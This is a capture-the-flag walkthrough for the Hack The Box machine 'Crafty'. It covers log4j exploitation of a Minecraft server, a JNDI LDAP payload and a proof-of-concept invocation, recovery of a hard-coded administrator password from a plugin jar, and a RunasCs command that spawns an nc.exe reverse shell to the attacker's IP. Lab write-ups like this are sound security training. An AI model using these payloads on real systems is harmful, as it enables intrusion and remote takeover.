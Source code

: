 





# Foothold


we immediately can tell its a log4j exploit in the famous minecraft game. 


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Crafty/Screenshots/Pasted%20image%2020240217215602.png)


we found a payload from github. all we needed was to change the payload type from bash to cmd

https://github.com/kozmer/log4j-shell-poc


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Crafty/Screenshots/Pasted%20image%2020240304225839.png)


execute the script 

```
python3 poc.py --userip 10.10.16.45 --webport 8888 --lport 81
```


payload in minecraft 

```
${jndi:ldap://10.10.16.45:1389/a}
```


![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Crafty/Screenshots/Pasted%20image%2020240304225714.png)





# Privesc


after looking around we found a plugins folder. we use use `jd-GUI` and see what can be a potentiall password 

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Crafty/Screenshots/Pasted%20image%2020240305211740.png)

im no good at java but this might be a password 

we try using runascs and it is the password for admin

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Crafty/Screenshots/Pasted%20image%2020240305211819.png)


we then upload `nc.exe` to make it connect back to use as admin


```
.\RunasCs.exe Administrator s67u84zKq8IXw "C:\Users\svc_minecraft\Desktop\nc.exe 10.10.16.45 1338 -e cmd.exe" -t 0
```


and we are admin

![image](https://github.com/suljov/CTF-Walkthroughs/blob/main/hackthebox/Boxes/Crafty/Screenshots/Pasted%20image%2020240305213413.png)
